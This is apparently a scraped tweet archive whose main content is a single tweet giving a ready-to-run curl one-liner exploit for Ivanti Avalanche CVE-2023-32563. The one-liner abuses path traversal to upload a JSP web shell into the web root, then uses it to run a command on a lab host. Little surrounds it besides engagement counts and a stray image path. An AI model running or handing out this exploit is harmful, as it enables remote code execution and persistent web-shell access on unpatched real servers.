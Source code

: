 <td><img src="pictures/4490877c1d6a28d665b27be3196729b900f733b2e5ef1f9638fddcdcca777bdf.jpg" alt="4490877c1d6a28d665b27be3196729b900f733b2e5ef1f9638fddcdcca777bdf.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1694956245742923939 _at 2023-08-25, 06:13:54_**
<blockquote>
Ivanti Avalanche CVE-2023-32563:

curl -v http://192.168.56.101:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" &lt;&lt;&lt;'&lt;%Runtime.getRuntime().exec(request.getParameter("c"));%&gt;' -: -k https://192.168.56.101:8443/x.jsp -d c=mspaint.exe
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>175</code></td>
</tr></table>

---